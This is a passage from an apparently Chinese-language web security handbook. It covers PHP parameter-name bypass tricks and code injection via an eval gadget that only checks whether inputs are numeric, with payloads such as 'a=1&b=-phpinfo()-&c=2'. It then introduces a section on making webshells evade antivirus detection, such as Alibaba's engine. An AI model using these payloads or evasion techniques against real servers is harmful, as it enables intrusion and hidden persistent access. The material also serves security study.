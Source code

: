 但其中有特殊情况：GET 或 POST 方式传参时，变量名中的 `[` 会被替换为 `_`，重点是它后面的字符就不会被替换了，那可以构造以下 Payload：

```bash
po[p.er=w_ai_tan_ji
```

#### 8.9.2 PHP 数字可与字符做运算

在 PHP 中，数字是可以和命令进行一些运算的，比如 `1-phpinfo()-2` 是可以成功执行 phpinfo 语句，同样的还有以下运算符：

```bash
+ - * | %
```

那我们不妨看以下代码：

```bash
$a = (String)$_GET['a'];
$b = (String)$_GET['b'];
$c = (String)$_GET['c'];
if(is_numeric($a) && is_numeric($c)){
    echo "$a$b$c = ".$code;
    $code =  eval("return $a$b$c;");
}
```

构造 Payload 如下：

```bash
a=1&b=-phpinfo()-&c=2
```

# 三、Webshell 免杀

## 学习后的免杀效果

学习本手册后，可以达到如下效果，当然这只是拿其中的一个简单的例子进行测试的，感兴趣的可以深入学习并自由组合~

#### 阿里伏魔检测引擎：

[![](assets/1707954023-55fd4e390d13a8d88b41a21835a60087.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205144535-2a72ed06-c3f2-1.png)
